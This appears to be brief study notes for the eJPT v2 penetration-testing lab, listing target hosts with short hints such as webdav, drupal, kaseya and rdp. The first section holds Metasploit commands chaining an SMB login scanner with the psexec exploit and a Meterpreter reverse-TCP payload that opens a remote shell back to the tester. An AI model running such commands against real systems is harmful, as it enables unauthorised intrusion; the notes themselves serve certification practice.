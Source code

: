 ###  eJPTV2
# Winserver 01
```
use auxiliary/scanner/smb/smb_login
use exploit/windows/smb/psexec # need payloads
set payload windows/meterpreter/reverse_tcp
set LHOST <your-ip>
set LPORT <your-listening-port>
```
# winserver 02
```
webdav
iis windows server
search kaseya

```
# linux
```
drupal

```
# winserver 03
```
miscrosoft iis httpd

```
# linux
```
rdp

```

# linux (ubuntu)
```
ssh
```


